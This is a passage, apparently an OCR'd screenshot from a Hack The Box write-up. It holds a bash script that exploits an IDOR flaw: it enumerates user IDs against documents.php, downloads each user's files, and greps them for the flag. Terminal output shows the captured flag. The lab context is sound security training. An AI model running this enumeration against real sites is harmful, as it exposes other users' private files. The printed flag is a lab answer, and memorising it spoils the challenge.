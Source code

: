 ```bash
        rm -f ./*
        echo "No flag found. All files deleted."
    fi
    cd .. && rmdir "$temp_dir" 2>/dev/null
}

# Capture CTRL+C to ensure cleanup
trap cleanup EXIT

for i in {1..20}; do
    # Get document links via POST
    links=$(curl -s -X POST "$url/documents.php" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -d "uid=$i" | grep -oP '\/documents\/.*?\.(pdf|txt)')

    [ -z "$links" ] && continue

    # Download files silently
    for link in $links; do
        filename=$(basename "$link")
        wget -q "$url$link" -O "$filename"
        downloaded_files+=("$filename")
        
        # Check for flag pattern in text files
        if [[ "$filename" == *.txt ]]; then
            if grep -qP 'HTB\{.*?\}' "$filename"; then
                flag_file="$filename"
                echo -e "\n\033[1;92mFLAG FOUND!\033[0m"
                grep -oP 'HTB\{.*?\}' "$filename"
                return  # Exit after first flag found
            fi
        fi
    done
done

# If we didn't exit early, check all downloaded files
if [ -z "$flag_file" ]; then
    for file in "${downloaded_files[@]}"; do
        if [[ "$file" == *.txt ]] && grep -qP 'HTB\{.*?\}' "$file"; then
            flag_file="$file"
            echo -e "\n\033[1;92mFLAG FOUND!\033[0m"
            grep -oP 'HTB\{.*?\}' "$file"
            break
        fi
    done
fi
```

```
smoothment@htb[/htb]$ ./IDOR.sh

FLAG FOUND!
HTB{4ll_f1l35_4r3_m1n3}
Cleaning up...
```
